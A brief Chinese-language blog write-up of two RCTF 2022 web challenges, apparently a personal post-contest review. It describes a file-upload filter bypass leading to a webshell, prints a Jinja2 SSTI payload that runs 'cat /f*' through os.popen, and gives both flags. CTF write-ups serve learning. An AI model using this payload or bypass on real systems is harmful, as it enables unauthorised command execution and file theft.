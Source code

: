 ```yaml
---
title: RCTF
date: 2022-12-14 19:25:00
tags:
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```


![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/4bff6acf-60d8-4b0b-87de-49b3bf51fcc8.png?x-oss-process=hzy)

<!--more-->

# 前言

48h的比赛，题目质量很好，只看了web，写了两道题目，记录一下吧，其他题目也看大佬的wp了，先学习一下，就不复现了，期末考试没时间

# easy_upload

文件上传类型题目

文件名通过大小写绕过，文件内容先使用base64反复加密编码数据进行欺骗绕过过滤

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/clip_image002.png?x-oss-process=hzy)

成功webshell之后命令执行得到flag

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/clip_image004.png?x-oss-process=hzy)

RCTF{ar3_u_s1ng1e_d0g?}

# filechecker_mini

ssti

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/clip_image006.png?x-oss-process=hzy)

`*\#! /{{config.__class__.__init__.__globals__[&apos;os&apos;].popen(&apos;cat /f*&apos;).read()}}*`

得到flag

RCTF{Just_A_5mall_Tr1ck_mini1i1i1__Fl4g_Y0u_gOtt777!!!}